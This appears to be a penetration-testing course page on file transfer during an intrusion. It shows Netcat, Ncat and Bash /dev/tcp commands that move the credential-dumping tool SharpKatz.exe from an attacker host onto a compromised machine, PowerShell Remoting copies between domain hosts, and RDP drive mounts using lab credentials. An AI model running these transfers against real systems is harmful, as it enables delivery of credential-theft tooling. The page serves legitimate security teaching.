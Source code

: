 ## Netcat
## File Transfer with Netcat and Ncat
#### NetCat - Compromised Machine - Listening on Port 8000

```shell-session
$ nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify `--recv-only` to close the connection once the file transfer is finished.
#### Ncat - Compromised Machine - Listening on Port 8000
```shell-session
$ ncat -l -p 8000 --recv-only > SharpKatz.exe
```
From our attack host, we'll connect to the compromised machine on port 8000 using Netcat and send the file as input to Netcat. The option `-q 0` will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed.

#### Netcat - Attack Host - Sending File to Compromised machine
```shell-session
$ nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

By utilizing Ncat on our attacking host, we can opt for `--send-only` rather than `-q`. The `--send-only` flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted. Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with `--send-only`, there is no need to anticipate further incoming information.

#### Ncat - Attack Host - Sending File to Compromised machine
```shell-session
$ ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

#### Attack Host - Sending File as Input to Netcat
```shell-session
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Compromised Machine Connect to Netcat to Receive the File
```shell-session
$ nc 192.168.49.128 443 > SharpKatz.exe
```

#### Attack Host - Sending File as Input to Ncat
```shell-session
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connect to Ncat to Receive the File
```shell-session
 ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

If we don't have Netcat or Ncat on our compromised machine, Bash supports read/write operations on a pseudo-device file [/dev/TCP/](https://tldp.org/LDP/abs/html/devref1.html).

Writing to this particular file makes Bash open a TCP connection to `host:port`, and this feature may be used for file transfers.
#### NetCat - Sending File as Input to Netcat
```shell-session
$ sudo nc -l -p 443 -q 0 < SharpKatz.exe
```
#### Ncat - Sending File as Input to Netcat
```shell-session
$ sudo ncat -l -p 443 --send-only < SharpKatz.exe
```
#### Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File
```shell-session
$ cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```


## PowerShell Session File Transfer
[PowerShell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/remoting/running-remote-commands?view=powershell-7.2) allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations. By default, enabling PowerShell remoting creates both an HTTP and an HTTPS listener. The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS.

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the `Remote Management Users` group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from `DC01` to `DATABASE01` and vice versa.
```powershell-session
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```
```powershell-session
PS C:\htb> Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Because this session already has privileges over `DATABASE01`, we don't need to specify credentials. In the example below, a session is created to the remote computer named `DATABASE01` and stores the results in the variable named `$Session`.
#### Create a PowerShell Remoting Session to DATABASE01
```powershell-session
PS C:\htb> $Session = New-PSSession -ComputerName DATABASE01
```
#### Copy samplefile.txt from our Localhost to the DATABASE01 Session
```powershell-session
PS C:\htb> Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```
#### Copy DATABASE.txt from DATABASE01 Session to our Localhost
```powershell-session
PS C:\htb> Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```

## RDP
#### Mounting a Linux Folder Using rdesktop
```shell-session
$ rdesktop 10.10.10.132 -d HTB -u administrator -p 'Password0@' -r disk:linux='/home/user/rdesktop/files'
```
#### Mounting a Linux Folder Using xfreerdp
```shell-session
$ xfreerdp /v:10.10.10.132 /d:HTB /u:administrator /p:'Password0@' /drive:linux,/home/plaintext/htb/academy/filetransfer
```

To access the directory, we can connect to `\\tsclient\`, allowing us to transfer files to and from the RDP session.
